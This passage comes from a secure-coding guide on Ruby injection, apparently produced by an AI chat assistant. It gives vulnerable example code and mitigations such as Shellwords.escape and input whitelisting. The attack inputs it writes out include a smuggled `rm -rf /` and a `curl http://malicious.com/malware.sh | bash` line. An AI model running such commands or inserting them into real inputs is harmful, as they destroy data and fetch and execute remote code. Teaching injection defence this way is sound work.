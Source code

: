 Input: `{ some: "`; rm -rf /`" }`
When this is converted to a query string, it could lead to injection vulnerabilities if concatenated into a command.

---

### **Example 15: Environment Variable Manipulation**

#### Scenario:

An application uses environment variables dynamically set by user input.

**Vulnerable Code**:

```ruby
def run_with_env(command, env_var)
  ENV['CUSTOM_ENV'] = env_var
  system(command)
end
```

#### Attack:

Input for `env_var`: `; curl http://malicious.com/malware.sh | bash`
This injects a malicious environment variable and runs a harmful command.

---

### **Mitigation Strategies for Ruby Injection**

1. **Avoid Dangerous Methods**: Avoid `eval`, `exec`, `send`, and similar methods for user-supplied input.
2. **Escape Inputs**:

   * Use `Shellwords.escape` to sanitize shell commands.

     ```ruby
     require 'shellwords'
     command = "ls #{Shellwords.escape(user_input)}"
     ```
3. **Whitelist Valid Inputs**:

   * Explicitly define and enforce valid values for parameters.
4. **Restrict Deserialization**:

   * Use safe libraries like `JSON` instead of `Marshal` or `YAML`.
5. **Secure Templates**:

   * Always escape user input in templates with `ERB::Util.h`.
6. **Sandbox Execution**:

   * Run risky commands in isolated containers or environments.

---

These additional examples cover a broader range of vulnerabilities related to Ruby Injection, from unsafe deserialization to dangerous use of ActiveRecord methods. By understanding these scenarios, developers can proactively secure their Ruby applications. Let me know if you'd like even more examples or details!

